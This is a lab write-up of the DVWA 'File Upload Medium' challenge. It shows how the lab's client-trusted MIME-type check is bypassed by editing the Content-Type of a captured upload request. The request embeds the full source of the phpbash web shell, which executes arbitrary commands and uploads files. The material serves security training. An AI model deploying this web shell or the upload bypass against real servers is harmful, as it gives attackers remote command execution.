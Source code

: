 #+TITLE: DVWA - File Upload Medium
#+AUTHOR: Leonardo Tamiano

* Description
  The medium challenge introduces a new check that is made on the
  following attributes of the uploaded file

  - type
  - size

  In php this is implemented as follows

  #+begin_src php
  // File information
    $uploaded_name = $_FILES[ 'uploaded' ][ 'name' ];
    $uploaded_type = $_FILES[ 'uploaded' ][ 'type' ];
    $uploaded_size = $_FILES[ 'uploaded' ][ 'size' ];

    // Is it an image?
    if( ( $uploaded_type == "image/jpeg" || $uploaded_type == "image/png" ) &&
        ( $uploaded_size < 100000 ) ) {

        // Can we move the file to the upload folder?
        if( !move_uploaded_file( $_FILES[ 'uploaded' ][ 'tmp_name' ], $target_path ) ) {
            // No
            echo '<pre>Your image was not uploaded.</pre>';
        }
        else {
            // Yes!
            echo "<pre>{$target_path} succesfully uploaded!</pre>";
        }
    }
    else {
        // Invalid file
        echo '<pre>Your image was not uploaded. We can only accept JPEG or PNG images.</pre>';
    }
  #+end_src

  This means that we cannot simply upload the phpshell as before.
  
* Solution
  To solve the challenge we can capture the HTTP request used to
  upload the file and we can change the ~Content-Type~ file to ~image/png~
  or ~image/jpeg~ as is shown below.

  This will bypass the check and allow us to access the shell at the
  following URL

  http://evil/hackable/uploads/phpbash.min.php

  #+begin_example
POST /vulnerabilities/upload/ HTTP/1.1
Host: evil
Content-Length: 7037
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://evil
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryFNYpoIuBOBp6GLF2
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://evil/vulnerabilities/upload/
Accept-Encoding: gzip, deflate, br
Accept-Language: it-IT,it;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: PHPSESSID=6hck904c1c5d97q223cgg24rf0; security=medium
Connection: close

------WebKitFormBoundaryFNYpoIuBOBp6GLF2
Content-Disposition: form-data; name="MAX_FILE_SIZE"

100000
------WebKitFormBoundaryFNYpoIuBOBp6GLF2
Content-Disposition: form-data; name="uploaded"; filename="phpbash.min.php"
Content-Type: image/png

<?php /* phpbash by Alexander Reid (Arrexel) */ if (ISSET($_POST['cmd'])){$output=preg_split('/[\n]/', shell_exec($_POST['cmd']." 2>&1")); foreach ($output as $line){echo htmlentities($line, ENT_QUOTES | ENT_HTML5, 'UTF-8') . "<br>";}die();}else if (!empty($_FILES['file']['tmp_name']) && !empty($_POST['path'])){$filename=$_FILES["file"]["name"]; $path=$_POST['path']; if ($path !="/"){$path .="/";}if (move_uploaded_file($_FILES["file"]["tmp_name"], $path.$filename)){echo htmlentities($filename) . " successfully uploaded to " . htmlentities($path);}else{echo "Error uploading " . htmlentities($filename);}die();}?><html> <head> <title></title> <style>html, body{max-width: 100%;}body{width: 100%; height: 100%; margin: 0; background: #000;}body, .inputtext{font-family: "Lucida Console", "Lucida Sans Typewriter", monaco, "Bitstream Vera Sans Mono", monospace; font-size: 14px; font-style: normal; font-variant: normal; font-weight: 400; line-height: 20px; overflow: hidden;}.console{width: 100%; height: 100%; margin: auto; position: absolute; color: #fff;}.output{width: auto; height: auto; position: absolute; overflow-y: scroll; top: 0; bottom: 30px; left: 5px; right: 0; line-height: 20px;}.input form{position: relative; margin-bottom: 0px;}.username{height: 30px; width: auto; padding-left: 5px; line-height: 30px; float: left;}.input{border-top: 1px solid #333333; width: 100%; height: 30px; position: absolute; bottom: 0;}.inputtext{width: auto; height: 30px; bottom: 0px; margin-bottom: 0px; background: #000; border: 0; float: left; padding-left: 8px; color: #fff;}.inputtext:focus{outline: none;}::-webkit-scrollbar{width: 12px;}::-webkit-scrollbar-track{background: #101010;}::-webkit-scrollbar-thumb{background: #303030;}</style> </head> <body> <div class="console"> <div class="output" id="output"></div><div class="input" id="input"> <form id="form" method="GET" onSubmit="sendCommand()"> <div class="username" id="username"></div><input class="inputtext" id="inputtext" type="text" name="cmd" autocomplete="off" autofocus> </form> </div></div><form id="upload" method="POST" style="display: none;"> <input type="file" name="file" id="filebrowser" onchange='uploadFile()'/> </form> <script type="text/javascript">var username=""; var hostname=""; var currentDir=""; var previousDir=""; var defaultDir=""; var commandHistory=[]; var currentCommand=0; var inputTextElement=document.getElementById('inputtext'); var inputElement=document.getElementById("input"); var outputElement=document.getElementById("output"); var usernameElement=document.getElementById("username"); var uploadFormElement=document.getElementById("upload"); var fileBrowserElement=document.getElementById("filebrowser"); getShellInfo(); function getShellInfo(){var request=new XMLHttpRequest(); request.onreadystatechange=function(){if (request.readyState==XMLHttpRequest.DONE){var parsedResponse=request.responseText.split("<br>"); username=parsedResponse[0]; hostname=parsedResponse[1]; currentDir=parsedResponse[2].replace(new RegExp("&sol;", "g"), "/"); defaultDir=currentDir; usernameElement.innerHTML="<div style='color: #ff0000; display: inline;'>"+username+"@"+hostname+"</div>:"+currentDir+"#"; updateInputWidth();}}; request.open("POST", "", true); request.setRequestHeader("Content-type", "application/x-www-form-urlencoded"); request.send("cmd=whoami; hostname; pwd");}function sendCommand(){var request=new XMLHttpRequest(); var command=inputTextElement.value; var originalCommand=command; var originalDir=currentDir; var cd=false; commandHistory.push(originalCommand); switchCommand(commandHistory.length); inputTextElement.value=""; var parsedCommand=command.split(" "); if (parsedCommand[0]=="cd"){cd=true; if (parsedCommand.length==1){command="cd "+defaultDir+"; pwd";}else if (parsedCommand[1]=="-"){command="cd "+previousDir+"; pwd";}else{command="cd "+currentDir+"; "+command+"; pwd";}}else if (parsedCommand[0]=="clear"){outputElement.innerHTML=""; return false;}else if (parsedCommand[0]=="upload"){fileBrowserElement.click(); return false;}else{command="cd "+currentDir+"; " + command;}request.onreadystatechange=function(){if (request.readyState==XMLHttpRequest.DONE){if (cd){var parsedResponse=request.responseText.split("<br>"); previousDir=currentDir; currentDir=parsedResponse[0].replace(new RegExp("&sol;", "g"), "/"); outputElement.innerHTML +="<div style='color:#ff0000; float: left;'>"+username+"@"+hostname+"</div><div style='float: left;'>"+":"+originalDir+"# "+originalCommand+"</div><br>"; usernameElement.innerHTML="<div style='color: #ff0000; display: inline;'>"+username+"@"+hostname+"</div>:"+currentDir+"#";}else{outputElement.innerHTML +="<div style='color:#ff0000; float: left;'>"+username+"@"+hostname+"</div><div style='float: left;'>"+":"+currentDir+"# "+originalCommand+"</div><br>" + request.responseText.replace(new RegExp("<br><br>$"), "<br>"); outputElement.scrollTop=outputElement.scrollHeight;}updateInputWidth();}}; request.open("POST", "", true); request.setRequestHeader("Content-type", "application/x-www-form-urlencoded"); request.send("cmd="+encodeURIComponent(command)); return false;}function uploadFile(){var formData=new FormData(); formData.append('file', fileBrowserElement.files[0], fileBrowserElement.files[0].name); formData.append('path', currentDir); var request=new XMLHttpRequest(); request.onreadystatechange=function(){if (request.readyState==XMLHttpRequest.DONE){outputElement.innerHTML +=request.responseText+"<br>";}}; request.open("POST", "", true); request.send(formData); outputElement.innerHTML +="<div style='color:#ff0000; float: left;'>"+username+"@"+hostname+"</div><div style='float: left;'>"+":"+currentDir+"# Uploading "+fileBrowserElement.files[0].name+"...</div><br>";}function updateInputWidth(){inputTextElement.style.width=inputElement.clientWidth - usernameElement.clientWidth - 15;}document.onkeydown=checkForArrowKeys; function checkForArrowKeys(e){e=e || window.event; if (e.keyCode=='38'){previousCommand();}else if (e.keyCode=='40'){nextCommand();}}function previousCommand(){if (currentCommand !=0){switchCommand(currentCommand-1);}}function nextCommand(){if (currentCommand !=commandHistory.length){switchCommand(currentCommand+1);}}function switchCommand(newCommand){currentCommand=newCommand; if (currentCommand==commandHistory.length){inputTextElement.value="";}else{inputTextElement.value=commandHistory[currentCommand]; setTimeout(function(){inputTextElement.selectionStart=inputTextElement.selectionEnd=10000;}, 0);}}document.getElementById("form").addEventListener("submit", function(event){event.preventDefault()}); </script> </body></html>

------WebKitFormBoundaryFNYpoIuBOBp6GLF2
Content-Disposition: form-data; name="Upload"

Upload
------WebKitFormBoundaryFNYpoIuBOBp6GLF2--
  #+end_example
